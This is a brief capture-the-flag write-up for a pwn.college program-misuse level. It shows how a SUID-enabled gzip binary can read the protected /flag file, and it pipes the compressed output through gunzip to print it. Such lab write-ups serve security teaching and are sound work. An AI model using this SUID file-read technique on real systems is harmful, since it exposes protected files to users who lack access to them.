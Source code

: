 # pwn.college - Fundamentals - Program misuse - Level 17
```
$ /challenge/babysuid_level17
```
The SUID bit on `/usr/bin/gzip` is set
```
$ gzip -c -k /flag
```
The flag is printed to stdout (`-c` option) compressed by the gzip algorithm (i.e. unreadable), with the original file preserved (`-k` option). What if I piped this output to `gunzip` with the stdout flag `-c` to uncompress and print the original flag?
```
$ gzip -c -k /flag | gunzip -c
```